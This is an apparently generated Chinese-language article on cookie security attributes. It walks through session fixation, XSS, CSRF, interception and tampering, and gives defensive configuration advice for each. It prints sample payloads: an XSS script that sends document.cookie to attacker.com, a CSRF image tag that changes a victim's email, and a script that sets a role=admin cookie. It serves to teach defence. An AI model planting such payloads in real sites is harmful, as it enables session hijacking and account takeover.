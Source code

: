 ### Cookie安全属性配置案例分析

在Web安全中，Cookie是用于在客户端和服务器之间传递状态信息的重要机制。然而，如果Cookie的安全属性配置不当，可能会导致严重的安全漏洞，如会话劫持、跨站脚本攻击（XSS）、跨站请求伪造（CSRF）等。本文将分析几个真实世界中的Cookie安全属性配置漏洞案例和攻击实例，并探讨如何通过正确的配置来防范这些风险。

#### 1. **Session Fixation攻击**

**案例背景：**
Session Fixation攻击是一种利用服务器在用户登录前后使用相同会话ID的漏洞，攻击者通过固定会话ID来劫持用户会话。这种攻击通常发生在服务器未在用户登录后重新生成会话ID的情况下。

**攻击实例：**
假设一个网站允许用户在未登录状态下访问，并且服务器在用户首次访问时生成一个会话ID，并将其存储在Cookie中。攻击者可以通过以下步骤实施Session Fixation攻击：

1. **获取会话ID：** 攻击者访问目标网站，获取一个会话ID，并将其保存在自己的Cookie中。
2. **诱导用户登录：** 攻击者通过某种方式（如钓鱼邮件）诱导受害者访问带有固定会话ID的URL。
3. **用户登录：** 受害者使用该会话ID登录网站，服务器未重新生成会话ID。
4. **劫持会话：** 攻击者使用之前获取的会话ID访问网站，成功劫持受害者的会话。

**安全配置建议：**
- **重新生成会话ID：** 在用户登录成功后，服务器应重新生成会话ID，并更新客户端的Cookie。
- **设置HttpOnly和Secure属性：** 防止通过JavaScript访问Cookie，并确保Cookie仅在HTTPS连接中传输。

#### 2. **跨站脚本攻击（XSS）**

**案例背景：**
跨站脚本攻击（XSS）是一种攻击者通过注入恶意脚本到网页中，从而在用户浏览器中执行这些脚本的攻击。如果Cookie未设置HttpOnly属性，攻击者可以通过XSS攻击窃取用户的Cookie。

**攻击实例：**
假设一个网站存在XSS漏洞，攻击者可以通过以下步骤窃取用户的Cookie：

1. **注入恶意脚本：** 攻击者在目标网站的输入框中注入恶意脚本，如`<script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>`。
2. **用户访问：** 受害者访问包含恶意脚本的页面，脚本在受害者浏览器中执行。
3. **窃取Cookie：** 恶意脚本将受害者的Cookie发送到攻击者的服务器。

**安全配置建议：**
- **设置HttpOnly属性：** 防止通过JavaScript访问Cookie，即使存在XSS漏洞，攻击者也无法窃取Cookie。
- **设置Secure属性：** 确保Cookie仅在HTTPS连接中传输，防止中间人攻击。

#### 3. **跨站请求伪造（CSRF）**

**案例背景：**
跨站请求伪造（CSRF）是一种攻击者通过诱导用户在已认证的会话中执行非预期操作的攻击。如果Cookie未设置SameSite属性，攻击者可以通过CSRF攻击执行恶意操作。

**攻击实例：**
假设一个网站允许用户通过GET请求修改账户信息，攻击者可以通过以下步骤实施CSRF攻击：

1. **构造恶意请求：** 攻击者构造一个恶意请求，如`<img src="http://target.com/change_email?new_email=attacker@example.com" />`。
2. **诱导用户访问：** 攻击者通过某种方式（如钓鱼邮件）诱导受害者访问包含恶意请求的页面。
3. **执行恶意操作：** 受害者在已认证的会话中访问该页面，恶意请求自动执行，修改受害者的账户信息。

**安全配置建议：**
- **设置SameSite属性：** 将Cookie的SameSite属性设置为`Strict`或`Lax`，防止跨站请求伪造攻击。
- **使用CSRF令牌：** 在敏感操作中使用CSRF令牌，确保请求来自合法的源。

#### 4. **Cookie泄露**

**案例背景：**
Cookie泄露是指攻击者通过某种方式获取用户的Cookie，从而冒充用户进行恶意操作。如果Cookie未设置Secure属性，攻击者可以通过中间人攻击窃取Cookie。

**攻击实例：**
假设一个网站未使用HTTPS，攻击者可以通过以下步骤窃取用户的Cookie：

1. **中间人攻击：** 攻击者在公共Wi-Fi网络中实施中间人攻击，拦截用户的HTTP请求。
2. **窃取Cookie：** 攻击者从拦截的请求中获取用户的Cookie。
3. **冒充用户：** 攻击者使用窃取的Cookie访问目标网站，冒充用户进行恶意操作。

**安全配置建议：**
- **设置Secure属性：** 确保Cookie仅在HTTPS连接中传输，防止中间人攻击。
- **使用HSTS：** 启用HTTP严格传输安全（HSTS），强制浏览器使用HTTPS连接。

#### 5. **Cookie篡改**

**案例背景：**
Cookie篡改是指攻击者通过某种方式修改用户的Cookie，从而影响应用程序的行为。如果Cookie未设置HttpOnly和Secure属性，攻击者可以通过XSS或中间人攻击篡改Cookie。

**攻击实例：**
假设一个网站存在XSS漏洞，攻击者可以通过以下步骤篡改用户的Cookie：

1. **注入恶意脚本：** 攻击者在目标网站的输入框中注入恶意脚本，如`<script>document.cookie="role=admin";</script>`。
2. **用户访问：** 受害者访问包含恶意脚本的页面，脚本在受害者浏览器中执行。
3. **篡改Cookie：** 恶意脚本修改受害者的Cookie，提升其权限。

**安全配置建议：**
- **设置HttpOnly属性：** 防止通过JavaScript访问Cookie，即使存在XSS漏洞，攻击者也无法篡改Cookie。
- **设置Secure属性：** 确保Cookie仅在HTTPS连接中传输，防止中间人攻击。

### 结论

Cookie安全属性配置是Web安全中的重要环节，不当的配置可能导致严重的安全漏洞。通过分析真实世界中的Cookie安全属性配置漏洞案例和攻击实例，我们可以得出以下安全配置建议：

1. **重新生成会话ID：** 在用户登录成功后，服务器应重新生成会话ID，并更新客户端的Cookie。
2. **设置HttpOnly属性：** 防止通过JavaScript访问Cookie，即使存在XSS漏洞，攻击者也无法窃取或篡改Cookie。
3. **设置Secure属性：** 确保Cookie仅在HTTPS连接中传输，防止中间人攻击。
4. **设置SameSite属性：** 将Cookie的SameSite属性设置为`Strict`或`Lax`，防止跨站请求伪造攻击。
5. **使用CSRF令牌：** 在敏感操作中使用CSRF令牌，确保请求来自合法的源。
6. **启用HSTS：** 强制浏览器使用HTTPS连接，防止中间人攻击。

通过遵循这些安全配置建议，可以有效防范Cookie相关的安全漏洞，保护用户和应用程序的安全。

---

*文档生成时间: 2025-03-11 15:47:12*






















